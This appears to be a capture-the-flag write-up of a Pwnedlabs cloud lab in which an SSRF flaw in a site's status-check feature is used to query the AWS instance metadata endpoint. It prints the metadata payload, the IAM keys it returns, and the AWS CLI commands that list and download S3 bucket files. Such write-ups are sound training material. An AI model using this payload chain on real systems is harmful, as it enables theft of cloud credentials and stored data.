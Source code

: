 ```yaml
---
author: Nithissh S
pubDatetime: 2024-02-09T15:22:00Z
modDatetime: 2024-02-09T07:12:47.400Z
title: SSRF to Pwned
slug: ssrf-to-pwned
featured: false
draft: false
tags:
  - CloudSec
  - AWS
  - Pwnedlabs
description:
  Lab from pwnedlabs where we have provided with a webserver and we are gonna look into how we can leverage it to SSRF 
---
```



### Scenario

Rumors are swirling on hacker forums about a potential breach at Huge Logistics. Your team has been monitoring these conversations closely, and Huge Logistics has asked you to assess the security of their website. Beyond the surface-level assessment, you're also to investigate links to their cloud infrastructure, mapping out any potential risk exposure. The question isn't just if they've been compromised, but how deep the rabbit hole goes.

  

### Things provided in this lab 

|     |     |
| --- | --- |
| IP Address | 52.6.119.121 |

  

### Solution

Firstly, we need to add the following IP address `52.6.119.121`  provided in the lab objective to `/etc/hosts` with domain name as `hugelogistics.pwn` 

  

```sh
Downloads % cat /etc/hosts
##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1	localhost
255.255.255.255	broadcasthost
::1             localhost
52.6.119.121    hugelogistics.pwn
```

  

Once after adding it, our application will get loaded and in that you have a functionality called “**Status checks”** where you can check the availability of the site you have 

  

In this case, you can see that in the `name` parameter we have passed the domain name as `hugelogisticsstatus.pwn` and it says all systems are operational 

  

![](../../assets/images/pwnedlabs/ssrf-1.png)  

  

But when you enter something like `example.com` and the website will get rendered in the current page... Kinda looks like interesting 

  

![](../../assets/images/pwnedlabs/ssrf-2.png)   

  

As we always do, when we enter the AWS metadata address `169.254.169.254` on to the `name` parameter and it works.. SSRF works 

  

![](../../assets/images/pwnedlabs/ssrf-3.png)   

  

Now in the same `name` parameter, when you continously go forward.. your payload will end up something like `169.254.169.254/latest/meta-data/iam/security-credentials` and where a IAM role called `MetaPwnedS3Access` visible in the web page 

  

![](../../assets/images/pwnedlabs/ssrf-4.png)   

  

Adding the IAM role and final payload would look something like this `169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access` and where it reveals the access key and secret key of IAM role called `MetapwnedS3Access` 

  

![](../../assets/images/pwnedlabs/ssrf-5.png)  

Once after setting up the credentials, Found out that this is assumed role as `MetapwnedS3Access`⁠ linked to the instance with following ID: `i-0199bf97fb9d996f1`⁠ 

  

```sh
Downloads % aws sts get-caller-identity --profile pwnedlabs-3
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```

  

Next up what else we can do with these credentials, in order to understand that we know these credentials will have access s3 bucket as the name suggests 

  

All the images on this website are imported through the following s3 bucket: `huge-logistics-storage` 

  

![](../../assets/images/pwnedlabs/ssrf-6.png)    

  

Now we can try to enumerate the s3 bucket using `aws s3` module in `awscli` and with the following command: `aws s3 ls s3://huge-logistics-storage --profile pwnedlabs-3`⁠ and we can list the files and since it is a CTF we will have a read and write access to the submit 

  

```sh
Downloads % aws s3 ls s3://huge-logistics-storage --profile pwnedlabs-3
PRE backup/
PRE web/
```

  

In the `web` folder, we didn’t find anything and skipped it.. But in the `backup` folder we found the `flag.txt` 

  

```sh
Downloads % aws s3 ls s3://huge-logistics-storage/backup/ --profile pwnedlabs-3
2023-06-01 03:44:05          0 
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt
```

  

In order to copy the `flag.txt` from s3 bucket to local, we can run the following command: `aws s3 cp s3://huge-logistics-storage/backup/flag.txt ./ --profile pwnedlabs-3`⁠ 

  

```sh
Downloads % aws s3 cp s3://huge-logistics-storage/backup/flag.txt ./ --profile pwnedlabs-3
download: s3://huge-logistics-storage/backup/flag.txt to ./flag.txt
```

  

Now copy the contents of `flag.txt` and submit it as solution and that solves the lab